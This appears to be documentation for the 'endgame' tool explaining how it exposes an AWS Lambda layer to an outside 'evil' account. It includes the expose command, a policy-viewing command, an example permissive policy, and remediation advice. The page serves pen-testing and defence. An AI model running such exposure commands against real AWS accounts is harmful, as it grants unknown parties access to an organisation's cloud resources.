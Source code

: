 # Lambda Layers

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service lambda-layer --name test-resource-exposure:1
```

* To view the contents of the Lambda layer policy, run the following:

```bash
export VICTIM_RESOURCE_ARN=arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure
export VERSION=3
aws lambda get-layer-version-policy \
    --layer-name $VICTIM_RESOURCE_ARN \
    --version-number $VERSION
```

* Observe that the output of the overly permissive Lambda Layer Policy resembles the example shown below.

## Example

Observe that the Evil principal's account ID (`999988887777`) is given `lambda:GetLayerVersion` access to the Lambda layer `arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure:1`.

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"lambda:GetLayerVersion\",\"Resource\":\"arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure:1\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":\"lambda:GetLayerVersion\",\"Resource\":\"arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure:1\"}]}",
    "RevisionId": ""
}
```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that Lambda Layers are only shared with trusted accounts.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Lambda Layers. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Lambda Layers**: Tightly control access to the following IAM actions:
      - [lambda:AddLayerVersionPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_AddLayerVersionPermission.html): _Grants permission to add permissions to the resource-based policy of a version of an AWS Lambda layer_
      - [lambda:GetLayerVersionPolicy](https://docs.aws.amazon.com/lambda/latest/dg/API_GetLayerVersionPolicy.html): _Grants permission to view the resource-based policy for a version of an AWS Lambda layer_
      - [lambda:ListFunctions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListFunctions.html): _Grants permission to retrieve a list of AWS Lambda functions, with the version-specific configuration of each function_
      - [lambda:ListLayers](https://docs.aws.amazon.com/lambda/latest/dg/API_ListLayers.html): _Grants permission to retrieve a list of AWS Lambda layers, with details about the latest version of each layer_
      - [lambda:ListLayerVersions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListLayerVersions.html): _Grants permission to retrieve a list of versions of an AWS Lambda layer_
      - [lambda:RemoveLayerVersionPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_RemoveLayerVersionPermission.html): _Grants permission to remove a statement from the permissions policy for a version of an AWS Lambda layer_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [aws lambda add-layer-version-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/add-layer-version-permission.html)
* [aws lambda get-layer-version-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/get-layer-version-policy.html)
* [Access Analyzer support for AWS Lambda Functions](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda)

